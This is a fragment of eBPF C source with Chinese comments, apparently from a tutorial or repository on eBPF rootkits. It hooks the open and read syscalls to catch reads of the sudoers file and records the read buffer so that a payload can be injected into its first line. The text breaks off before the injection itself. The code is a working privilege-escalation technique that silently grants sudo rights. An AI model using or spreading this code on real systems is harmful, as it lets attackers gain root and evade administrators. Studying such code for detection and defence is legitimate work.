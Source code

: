 ```c
    if (check == 0) {
        return 0;
    }
    int pid = pid_tgid >> 32;

    // 将映射值设置为返回的文件描述符
    unsigned int fd = (unsigned int)ctx->ret;
    bpf_map_update_elem(&map_fds, &pid_tgid, &fd, BPF_ANY);

    return 0;
}

SEC("tp/syscalls/sys_enter_read")
int handle_read_enter(struct trace_event_raw_sys_enter *ctx)
{
    // 检查此 open 调用是否正在打开我们的目标文件
    size_t pid_tgid = bpf_get_current_pid_tgid();
    int pid = pid_tgid >> 32;
    unsigned int* pfd = bpf_map_lookup_elem(&map_fds, &pid_tgid);
    if (pfd == 0) {
        return 0;
    }

    // 检查这是否是 sudoers 文件描述符
    unsigned int map_fd = *pfd;
    unsigned int fd = (unsigned int)ctx->args[0];
    if (map_fd != fd) {
        return 0;
    }

    // 从参数中存储缓冲区地址到映射
    long unsigned int buff_addr = ctx->args[1];
    bpf_map_update_elem(&map_buff_addrs, &pid_tgid, &buff_addr, BPF_ANY);

    // 记录并退出
    size_t buff_size = (size_t)ctx->args[2];
    return 0;
}

SEC("tp/syscalls/sys_exit_read")
int handle_read_exit(struct trace_event_raw_sys_exit *ctx)
{
    // 检查此 open 调用是否正在读取我们的目标文件
    size_t pid_tgid = bpf_get_current_pid_tgid();
    int pid = pid_tgid >> 32;
    long unsigned int* pbuff_addr = bpf_map_lookup_elem(&map_buff_addrs, &pid_tgid);
    if (pbuff_addr == 0) {
        return 0;
    }
    long unsigned int buff_addr = *pbuff_addr;
    if (buff_addr <= 0) {
        return 0;
    }

    // 这是从 read 系统调用返回的数据量
    if (ctx->ret <= 0) {
        return 0;
    }
    long int read_size = ctx->ret;

    // 添加我们的有效负载到第一行
    if (read_size < payload_len) {
        return 0;
```